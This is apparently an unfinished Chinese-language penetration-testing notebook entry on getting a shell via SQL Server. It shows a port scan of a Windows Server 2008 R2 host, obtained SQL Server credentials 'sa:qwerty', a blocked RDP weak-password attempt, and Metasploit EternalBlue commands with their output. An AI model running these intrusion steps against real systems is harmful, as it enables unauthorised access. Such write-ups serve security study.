 ```yaml
---
tags: [SQL Server,网络安全,'#TODO']
date: 2022-10-4 13:45
title: SQL Server 另类 getshell
---
```


## 待填坑

## 目标环境

Windows Server 2008 R2，安装了 360安全卫士，扫描结果大致如下：

```
80/tcp    open  http               Microsoft IIS httpd 7.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Enterprise 7600 microsoft-ds
1433/tcp  open  ms-sql-s           Microsoft SQL Server 2008 R2 10.50.1600.00; RTM
3389/tcp  open  ssl/ms-wbt-server?
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

其中运行于 1433 端口的 SQL Server 服务已经得到了账号与密码，即`sa:qwerty`

其中运行于 80 端口的 IIS 服务访问任何页面都是 404

## 尝试

### 远程桌面弱密码

用了[这个软件](https://github.com/7kbstorm/7kbscan-RDP-Sniper)跑，但其实根本没用——被 360 拦了

### 永恒之蓝

445 开着，那直接跑个永恒之蓝试试：

```
use exploit/windows/smb/ms17_010_eternalblue
set rhost 192.168.1.66
exploit
```

非常成功的——被拦了。

```
[+] 192.168.1.66:445 - The target is vulnerable.
[-] 192.168.1.66:445 - Errno::ECONNRESET: An existing connection was forcibly closed by the remote host.
```
